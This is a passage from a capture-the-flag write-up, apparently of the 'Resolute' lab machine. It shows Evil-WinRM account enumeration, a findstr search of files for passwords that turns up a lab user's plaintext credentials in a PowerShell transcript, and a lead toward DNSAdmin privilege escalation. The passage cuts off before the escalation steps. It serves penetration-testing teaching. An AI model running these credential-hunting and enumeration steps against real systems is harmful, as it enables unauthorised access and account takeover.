 ```bash
*Evil-WinRM* PS C:\Users> net user ryan
User name                    ryan
Full Name                    Ryan Bertrand
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/6/2023 8:32:02 AM
Password expires             Never
Password changeable          11/7/2023 8:32:02 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Contractors
The command completed successfully.
```

He is the group **Contractors** which is not a common group in active directory. After executing PoweUp.ps1 and winPEAS I have nothing, so let’s do a manual enumeration. Since there is not much to do on the box, let’s try to find files where the name **ryan** is mentioned.

```bash
findstr /SI "passw pwd ryan" *.xml *.ini *.txt *.ps1 *.bat *.config
```

Luckly, we get the password of this user in the output.

```bash
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

So now we have the credentials `ryan:Serv3r4Admin4cc123!` , which actually are valid.

# Privilege escalation

From the previuos enumeration we could see that there is not much to do in the box, so the path to Administrator from Ryan must come from a new privilege that this user has.

If we use bloodhound to enumerate the domain, we will see that the user ryan is part of the **DNSAdmin** group, which means that we may have a possibility to escalate privilege.
